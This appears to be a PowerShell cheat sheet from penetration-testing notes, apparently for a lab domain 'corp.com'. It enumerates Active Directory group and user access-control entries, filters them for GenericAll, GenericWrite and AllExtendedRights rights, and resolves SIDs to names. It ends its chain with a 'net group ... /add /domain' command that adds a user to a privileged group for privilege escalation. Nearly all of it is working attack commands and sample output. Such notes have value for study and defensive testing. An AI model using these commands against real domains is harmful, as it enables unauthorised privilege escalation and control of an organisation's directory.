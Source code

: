 ```powershell
# Enum AD Groups with nested permissions on AD Group
 $objects = ($groups | % { $nested = $_; $groups | % { $g = $_; Get-ObjectAcl -DistinguishedName $g.ObjectDN | ? { $_.SecurityIdentifier -eq $nested.ObjectSID } } } ) 

# Focus on "GenericAll" permission
# Focus on ObjectDN, ActiveDirectoryRights, SecurityIdentifier
$objects | ? ActiveDirectoryRights -eq "GenericAll"
$objects | ? ActiveDirectoryRights -eq "GenericWrite"
$objects | ? ActiveDirectoryRights -eq "AllExtendedRights"
$objects | % { $_; $si=$_.SecurityIdentifier; $name=$(Convert-SidToName $_.SecurityIdentifier); "[*] $si -> $name" }

ObjectDN              : CN=Management Department,DC=corp,DC=com
ActiveDirectoryRights : GenericAll
SecurityIdentifier    : S-1-5-21-1987370270-658905905-1781884369-1104

[*] S-1-5-21-1987370270-658905905-1781884369-1104 -> CORP\stephanie

# Privilege escalation via AD group
net group "Management Department" stephanie /add /domain

# Convert SID to AD Username
Convert-SidToName S-1-5-21-1987370270-658905905-1781884369-1104
CORP\stephanie

# List Ad User ACLs
Get-ObjectAcl -Identity stephanie ## user
ObjectDN               : CN=stephanie,CN=Users,DC=corp,DC=com
ObjectSID              : S-1-5-21-1987370270-658905905-1781884369-1104
ActiveDirectoryRights  : ReadProperty
SecurityIdentifier     : S-1-5-21-1987370270-658905905-1781884369-553
...

# Focus on GenericAll Permission on AD Users
Get-ObjectAcl -Identity "stephanie" | where activedirectoryrights -eq "genericall" | select securityidentifier,activedirectoryrights | fl
Get-ObjectAcl -Identity "stephanie" | where activedirectoryrights -eq "genericwrite" | select securityidentifier,activedirectoryrights | fl
Get-ObjectAcl -Identity "stephanie" | where activedirectoryrights -eq "allextendedrights" | select securityidentifier,activedirectoryrights | fl 

# Focus on GenericAll Permisison on AD groups
Get-ObjectAcl -Identity "Management Department" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights | fl
Get-ObjectAcl -Identity "Management Department" | ? {$_.ActiveDirectoryRights -eq "GenericWrite"} | select SecurityIdentifier,ActiveDirectoryRights | fl
Get-ObjectAcl -Identity "Management Department" | ? {$_.ActiveDirectoryRights -eq "AllExtendedRights"} | select SecurityIdentifier,ActiveDirectoryRights | fl

```
